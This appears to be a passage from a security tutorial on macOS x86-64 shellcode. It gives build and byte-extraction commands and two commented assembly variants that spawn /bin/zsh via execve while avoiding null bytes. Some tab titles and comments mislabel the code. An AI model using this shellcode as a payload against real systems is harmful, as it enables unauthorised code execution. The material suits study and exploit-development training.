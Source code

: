 So, the syscall number to call open would be `0x2000005`

### Shellcodes

To compile:

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

To extract the bytes:

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/b729f716aaf24cbc8109e0d94681ccb84c0b0c9e/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
    echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details><summary>C code to test the shellcode</summary></details>

#### Shell

Taken from [**here**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) and explained.

{% tabs %}
{% tab title="with adr" %}
```armasm
bits 64
global _main
_main:
    call    r_cmd64
    db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
    pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
    xor     rdx, rdx          ; store null arg3
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```
{% endtab %}

{% tab title="with stack" %}
```armasm
bits 64
global _main

_main:
    xor     rdx, rdx          ; zero our RDX
    push    rdx               ; push NULL string terminator
    mov     rbx, '/bin/zsh'   ; move the path into RBX
    push    rbx               ; push the path, to the stack
    mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
```